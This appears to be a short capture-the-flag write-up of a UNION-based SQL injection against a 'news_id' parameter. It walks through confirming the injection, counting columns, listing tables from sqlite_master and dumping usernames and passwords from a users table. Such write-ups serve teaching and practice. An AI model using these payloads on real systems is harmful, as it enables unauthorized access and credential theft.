



## Recon

First I try injecting at the **login** form, but nothing works there. Then I look at the **Accueil** (home) page, which loads news items through a `news_id` parameter:
```
?action=news&news_id=1 or 1 = 1
```


The page returns extra/all news rows, which means `news_id` is **vulnerable to SQL injection** 

## Finding the number of columns

UNION requires both SELECTs to have the same number of columns:
```
?action=news&news_id=1 union select 1,1,1
```


It returns successfully and shows which positions are visible → the query has
**3 columns**.

We can use this payload to get the table name:
```
?action=news&news_id=1 union select 1,1,name from sqlite_master
```
There's a table named **`users`**.

Get username, password from users:
```
?action=news&news_id=1 union select 1,username,password from users
```
